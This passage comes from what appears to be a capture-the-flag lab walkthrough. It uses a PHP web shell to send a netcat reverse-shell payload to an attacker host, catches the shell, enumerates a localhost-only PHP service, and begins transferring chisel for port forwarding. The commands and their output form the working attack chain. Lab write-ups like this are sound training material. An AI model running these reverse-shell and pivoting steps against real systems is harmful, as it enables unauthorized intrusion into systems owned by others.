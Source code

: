 We got a successful execution of the whoami command. At this point, we can start a listener on our attack host to catch a reverse shell from the target.
```bash
┌──(pentester㉿kali)-[~/Arroutada]
└─$nc -lvnp 1234   
listening on [any] 1234 ...
```

Next, we send the reverse shell payload to our target.
```bash
┌──(pentester㉿kali)-[~/Arroutada/Scans/Web]
└─$curl 'http://10.0.2.12/thejabasshell.php?a=nc+-e+/bin/bash+10.0.2.9+1234&b=pass'
```

Back to our shell, we will see a reverse connection.
```bash
┌──(pentester㉿kali)-[~/Arroutada]
└─$nc -lvnp 1234   
listening on [any] 1234 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.12] 51392
whoami
www-data
```

With this access, we can start the internal enumeration process on the target. Most organisations do not expose all their services to the public, so when we land on a server it's worth checking for services running internally. 
```bash
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      4096       127.0.0.1:8000      0.0.0.0:*          
LISTEN 0      511                *:80              *:* 
```

We can see that our target runs a local service on port 8000. When we check the process running on the target, we will see that this port is used by a simple PHP server run by the user drito.
```bash
ps aux                                                                         
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND       
<SNIP>
drito        492  0.0  0.0   2484   456 ?        Ss   17:07   0:00 /bin/sh -c /home/drito/service                                                            
drito        493  0.0  0.1   2236  1116 ?        S    17:07   0:00 /home/drito/service                                                                       
drito        494  0.0  0.0   2484   392 ?        S    17:07   0:00 sh -c /usr/bin/php -S 127.0.0.1:8000 -t /home/drito/web/
drito        495  0.0  1.9 193336 19196 ?        S    17:07   0:00 /usr/bin/php -S 127.0.0.1:8000 -t /home/drito/web/
<SNIP>
```

To access this local port from our attack host we will have to apply our knowledge of port forwarding. One handy tool to accomplish this is chisel. To use this, we will first transfer the chisel stand-alone binary from our attack host to our target. We can start a Netcat listener on our  target using the foothold we have obtained.
```bash
nc -lvnp 9000 > chisel
```

